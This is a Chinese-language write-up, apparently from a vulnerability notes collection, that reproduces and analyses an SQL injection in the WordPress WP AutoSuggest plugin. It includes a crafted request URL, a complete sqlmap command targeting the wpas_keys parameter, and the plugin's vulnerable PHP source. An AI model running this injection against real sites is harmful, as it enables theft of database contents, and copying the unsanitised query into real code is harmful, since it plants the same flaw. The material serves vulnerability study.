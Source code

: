 # WordPress Plugin - AutoSuggest sql 注入

> 原文：[http://book.iwonder.run/0day/Wordpress/25.html](http://book.iwonder.run/0day/Wordpress/25.html)

## 一、漏洞简介

WP AutoSuggest 这款插件在访问者输入关键字时，插件会在提交搜索查询之前通过 AJAX 请求在网页中显示一些建议。访问者可以通过按 Enter 继续搜索，或者访问者可以使用键盘箭头直接访问建议的帖子。

## 二、漏洞影响

## 三、复现过程

首先我们得进入 exploit-db 网站上下载这个存在漏洞的版本的插件原始码和本地构建 WordPress 网站（本地构建 WordPress 这里就不说了）。下载源码，如下图所示

![image](img/4dc8226e7fa50e8deb9e18041a762f06.png)

下载完成之后，把 wp-autosuggest 目录直接拖到 Wordpress 目录的\wp-content\plugins\下。

![image](img/1743c9af9aa20a3d992f7ddd92865f05.png)

接着，登录后台，启用这款插件，如下图所示：

![image](img/6e716e8e3d6d76befe5b7f2ec8989feb.png)

启用后，退出后台，如下图所示：

![image](img/1af3874a3cb7ef84e5f3235d5fbb5cc2.png)

然后根据 exploit-db 网站上给出的漏洞详情，我们访问下面的 URL：

```
http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1 
```

访问后，网页内容如下图所示：

![image](img/3255d1146eae93074b858e289aaabd97.png)

根据 exploit-db 网站上给出的漏洞详情，我们也知道了 wpas_keys 参数存在注入，于是我们可以使用 SQLMAP 注入神器，对网站进行注入。SQLMAP 命令如下：

```
sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment 
```

一开始，笔者使用的时 php5.2.17+Apache 的环境，结果复现不了，头疼了半天，如下图：

![image](img/dd1d86caae0c35e95c1b5782f4b2b1ff.png)

后来笔者换了一个 php-5.4.45+Apache 的环境，就解决了。

![image](img/7f19a1eed8c04587ee28756760ad779a.png)

通过 SQLMAP，成功获取到服务器的一些信息，如下图所示：

![image](img/2426a70db8a76fe155f34d20686476be.png)

下图也成功跑出了当前数据库的名称。

![image](img/650d01794f397f07fb4c81ac32e46754.png)

### 漏洞分析

分析 WordPress 插件的话还是挺容易的。文件和代码也不是很多，用 Notepad++就够用啦。进入插件根目录下面就看到了 autosuggest_functions.php、autosuggest.php 这两个 php 文件。

![image](img/63fa369268aa6cf4969dc5f39636b6cc.png)

下面是 autosuggest.php 文件所有代码：

```
<?php
include 'autosuggest_functions.php';

$wpas_action = '';
$wpas_keys = '';
if(isset($_GET['wpas_action'])) {
    $wpas_action = $_GET['wpas_action'];
}
if (isset($_GET['wpas_keys'])) {
    $wpas_keys = $_GET['wpas_keys'];
}

if ($wpas_action == 'query') {

    require_once ('../../../wp-config.php');

    header('Content-Type: text/xml');
    echo '<results>';

    global $wpdb;

    $wpas_keys = str_replace(' ','%',$wpas_keys);
    $pageposts = $wpdb->get_results("SELECT * FROM $wpdb->posts WHERE (post_title LIKE '%$wpas_keys%') AND post_status = 'publish' ORDER BY post_date DESC");
    foreach ($pageposts as $post) {
        setup_postdata($post);
        echo "<rs id=\"";
        the_permalink();
        echo "\" info=\"" . autosuggest_excerpt(apply_filters('the_title', get_the_content())) . "\">";
        the_title();
        echo "</rs>";
    }
    echo '</results>';
    die();
}

define('AUTOSUGGEST_DIR', get_option('siteurl') . '/' . PLUGINDIR.'/'.dirname(plugin_basename(__FILE__)));

function add_autosuggest_css() {
    wp_register_style('autosuggestCSS', AUTOSUGGEST_DIR . '/css/wp_autosuggest.css', null, '1', 'screen');
    wp_enqueue_style('autosuggestCSS');
}

function add_autosuggest_js() {
    wp_register_script('autosuggestJS', AUTOSUGGEST_DIR . '/js/wp.autosuggest.js', null, '1');
    wp_enqueue_script('autosuggestJS');
}

function add_autosuggest_footer_code() {
?>
<script type="text/javascript">
var autosuggest_options = {
    script: "<?php echo AUTOSUGGEST_DIR; ?>/autosuggest.php?wpas_action=query&",
    varname: "wpas_keys",
    shownoresults:true,
    noresults:"<?php echo __('No results found.'); ?>",
    timeout:15000,
    callback:autosuggestSelected,
    maxresults: <?php echo get_wpas_option('wpas_maxresults','10'); ?>
};
var as = new AutoSuggest('<?php echo get_wpas_option('wpas_input_id','s'); ?>', autosuggest_options);
function autosuggestSelected(entry) {
    document.location = entry['id'];
}
</script>
<?php
}

function add_autosuggest_settings() {
?>
<div class="wrap">

    <?php

        $smsg = "";
        if (isset($_POST['submitoptions'])) {
            if (isset($_POST['wpas_input_id'])) {
                update_option('wpas_input_id',$_POST['wpas_input_id']);
            }
            if (isset($_POST['wpas_maxresults'])) {
                update_option('wpas_maxresults',$_POST['wpas_maxresults']);
            }
            ?>

            <div id="message" class="updated fade"><p>WP AutoSuggest settings updated.</p></div>

    <?php } ?>

    <h2>WP AutoSuggest Settings</h2>

    <form action="" method="post">
    <table class="form-table">
        <tr valign="top">
        <th scope="row">Search Input ID</th>
        <td>
        <input type="text" value="<?php echo get_wpas_option('wpas_input_id','s'); ?>" id="wpas_input_id" name="wpas_input_id"/><br/>
        Default value is 's' which is used with the default WordPress theme. 
        </td>
        </tr>
        <tr valign="top">
        <th scope="row">Max Results</th>
        <td>
        <input type="text" value="<?php echo get_wpas_option('wpas_maxresults','10'); ?>" id="wpas_maxresults" name="wpas_maxresults"/><br/>
        Maximum number of suggested results (10 by default).
        </td>
        </tr>
    </table>
    <p class="submit"><input type="submit" name="submitoptions" value="Update Settings" /></p>
    </form>
    </div>
<?php
}

function add_autosuggest_menu_settings() {
    if (function_exists('add_options_page')) {
         add_options_page(
             "WP AutoSuggest"
             , "WP AutoSuggest"
             , 7
             , basename(__FILE__)
             , 'add_autosuggest_settings');
    }
}

add_action('wp_print_scripts', 'add_autosuggest_js');
add_action('wp_print_styles', 'add_autosuggest_css');
add_action('wp_footer', 'add_autosuggest_footer_code');
add_action('admin_menu', 'add_autosuggest_menu_settings');

?> 
```

相信大家没看几行就看出了问题的所在，变量 wpas_keys 是直接获取 GET 中的 wpas_keys。一点都没过滤，并且在下面代码中，变量 wpas_keys 也带入数据库中查询了（wpdb 是 wordpress 操作数据库方法），于是 SQL 注入就产生了。

![image](img/ad90e980b9a335eff6fa8945e7a1b846.png)

## 四、参考链接

> [https://www.exploit-db.com/exploits/45977](https://www.exploit-db.com/exploits/45977)
> 
> [https://www.freebuf.com/vuls/191869.html](https://www.freebuf.com/vuls/191869.html)

